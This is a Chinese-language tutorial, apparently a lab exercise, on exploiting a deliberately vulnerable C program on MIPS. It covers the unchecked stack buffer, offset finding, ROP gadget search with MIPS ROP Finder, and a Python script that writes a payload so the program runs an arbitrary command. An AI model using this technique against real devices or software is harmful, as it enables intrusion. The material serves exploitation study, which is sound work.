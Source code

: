 # 一：源码
### 实现功能：从文件passwd读取密码并判断是否是adminpwd，从而执行设定好的ls命令。
### 存在漏洞：程序中并未对文件大小做出限制，而所给缓冲区只有256个字节。
### 目标：构造ROP链实现执行任意命令
~~~ 
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
void do_system(int code ,char* cmd)
{

	char buf[255];
	system(cmd);
}

void main()
{
	char buf[256] = {0};
	char ch;
	int count = 0;
	unsigned int filelen = 0;
	struct stat filedata;                                   //获取文件信息
	FILE*fp;    
	if(0== stat("passwd",&filedata))
	{
		filelen=filedata.st_size;                           //获取文件大小
	}
	else
	{
	
		return 1;
	}
	if((fp=fopen("passwd","rb"))==NULL)                     //打开文件
	{
		printf("cannot open file passwd!\n");
		exit(1);
	}
	ch=fgetc(fp);
	while(count<=filelen)
	{
		buf[count++] = ch;                                  //循环读取内容到堆栈中
		ch = fgetc(fp);
	}
	buf[--count] = '\x00';
	if(!strcmp(buf,"adminpwd"))
	{
		do_system(count,"ls -l");                           //执行ls -l命令
	
	}
	else
	{
		printf("you have an invalid password!\n");
	}
	fclose(fp);

}
~~~

# 二：实施步骤
#### 1：劫持PC（搞崩程序）
通过使用python命令，生成一个具有600个‘A’的文件passwd
~~~
python -c "print 'A'*600">passwd
~~~
之后执行程序后成功崩溃。

#### 2：确定偏移
~~~
//经过动态调试可知此处就是在读取文件中的字节到堆栈中，此时我们记录一下堆栈地址add1 = （$v0+0x18）
004005C4                 sb      $v1, 0x18($v0) 
//这条就是重新从堆栈中读取返回地址到寄存器，此时我们记录下堆栈地址add2 = $sp+0x1cc
0040070C                 lw      $ra, 0x1D0+var_4($sp)
~~~
记录完成之后count = add2-add1就是覆盖ra所需的字节数了。

#### 3：确定攻击途径
要执行任意命令，我们只需要能够更改函数do_system的第二个参数即可，所以我们的大致思路是，通过文件passwd对ra进行覆盖，让其跳转到具有从堆栈中取值到$a1,之后通过ra返回的gadget。
通过插件MIPS ROP Finder进行搜索，使用方法点击edit-plugins-MIPS ROP Finder,之后在脚本栏中输入mipsrop.stackfinders()可以找到一条符合要求的指令如下：
~~~
.text:004037A0                 addiu   $a1, $sp, 0x58+var_40   //从$sp+0x18处取值到$a1
.text:004037A4                 lw      $ra, 0x58+var_4($sp)    //从$sp+0x54处取返回地址到ra
.text:004037A8                 sltiu   $v0, 1
.text:004037AC                 jr      $ra
~~~
那我们只要覆盖返回地址为004037A0，将$sp+0x18改为我们想要执行的cmd命令，将$sp+0x54改为do_system地址即可

#### 4：构建shellcode
使用python脚本构建源码如下
~~~
#exploit.py
import struct
print '[*]prepare shellcode',
#设置要执行的cmd命令
cmd = 'pwd'
cmd+="\x00"*(4-len(cmd)%4)

#构建shellcode
shellcode="A"*0x19c
shellcode+=struct.pack('>L',0x4037a0)
shellcode+='A'*24
shellcode+=cmd
shellcode+='B'*(0x3c-len(cmd))
shellcode+=struct.pack('>L',0x4006c0)
shellcode+='BBBB'
print 'ok!'
print '[+]write shellcode to file',

#写入文件passwd
fw=open('passwd','w')
fw.write(shellcode)
fw.close()
print 'ok!'
~~~
![ROP](ROP.png)
